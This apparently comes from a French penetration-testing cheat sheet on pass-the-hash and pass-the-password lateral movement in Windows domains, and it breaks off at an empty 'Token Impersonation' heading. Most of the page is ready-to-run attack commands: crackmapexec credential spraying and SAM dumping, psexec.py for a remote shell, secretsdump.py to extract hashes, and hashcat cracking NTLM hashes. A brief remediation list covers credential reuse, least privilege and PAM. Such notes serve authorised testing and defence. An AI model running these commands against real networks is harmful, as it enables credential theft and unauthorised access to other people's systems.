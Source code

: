 ## 1. Pass the hash / Pass the password

Si on casse le mot de passe on si on dump les hashes de la SAM, on peut effectuer un mouvement latéral sur le réseau. On peut utiliser l'outil crackmapexec

### 1.1 Installer crackmapexec

*apt install crackmapexec*

### 1.2 Utilisation

#### 1.2.1 Pass the password

*crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>*

Si on a un match:
On se connecte :
*psexec.py  <domaine_name>/jdoe:Pass123@192.168.12.12*
On essaie de dumper la SAM :
*crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass> --sam*

Dumper les hash avec secretsdump :
*secretsdump.py <domain_name>/jdoe:Pass123@192.168.12.12*
On récupère les hashes

Casser les hashes:
*hashcat -m 1000 hash.txt rockyou.txt*

#### 1.2.2 Pass the Hash 

*crackmapexec smb 192.168.1.0/24 -u "John Doe" -H <copier hash ici> --local-auth*

On peut aussi se connecter avec psexec pour avoir un shell:
*psexec.py "john doe":@192.168.12.12 -hashes <copier le hash ici>*

### 1.3 Remédiation

Difficile de l'empêcher complètement.

- Eviter de réutiliser des creds :
	- Réutilisation du mdp d'admin local
	- Désactiver les comptes Guest et Administrator 
	- Moindre privilège : limiter qui peut être local admin

- Mdp fort

- Privilege Access Management (PAM)
	- vérifier l'accès à un compte sensible lorsque cela est nécessaire
	- change le mdp automatiquement à chaque accès et log out
	- Limite ces attaques car les hashes et les mdp sont fort et changés régulièrement


## 2. Token Impersonation

### 2.1 Overview
